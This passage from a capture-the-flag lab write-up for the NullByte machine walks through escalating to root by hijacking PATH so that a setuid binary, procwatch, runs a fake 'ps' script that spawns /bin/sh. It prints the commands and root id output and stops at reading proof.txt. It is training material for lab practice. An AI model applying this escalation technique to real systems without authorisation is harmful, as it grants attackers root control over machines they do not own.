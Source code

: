 When `procwatch` is executed, it seems to run `ps` command. This is a classic scenario for PATH hijacking. If we can control the `PATH` environment variable, we can make `procwatch` execute our own `ps` script instead of the legitimate `/bin/ps`.

1.  **Create a malicious `ps` script:**
    I created a file named `ps` in the `/var/www/backup/` directory (or any directory writable by `ramses` that can be added to `PATH`).

    \`\`\`bash
    ramses@NullByte:/var/www/backup$ vi ps
    \`\`\`

    Content of `ps`:
    \`\`\`bash
    #!/bin/sh
    /bin/sh
    \`\`\`

    This script simply executes `/bin/sh`, which should give us a shell.

2.  **Make the script executable:**
    \`\`\`bash
    ramses@NullByte:/var/www/backup$ chmod +x ps
    \`\`\`

3.  **Modify `PATH` and execute `procwatch`:**
    I added the current directory (`/var/www/backup`) to the `PATH` environment variable so that our malicious `ps` script would be found before `/bin/ps`.

    \`\`\`bash
    ramses@NullByte:/var/www/backup$ export PATH=/var/www/backup:$PATH
    ramses@NullByte:/var/www/backup$ /var/www/backup/procwatch
    \`\`\`

    Upon executing `procwatch`, it ran our `ps` script, which in turn executed `/bin/sh`, granting us a root shell!

    \`\`\`
    # id
    uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
    \`\`\`

    The `euid=0(root)` confirms that we have successfully escalated privileges to root.

## Root Flag

Finally, I navigated to the `/root` directory to find the `proof.txt` file.

\`\`\`bash
# cd /root
# ls
proof.txt
# cat proof.txt
\`\`\`
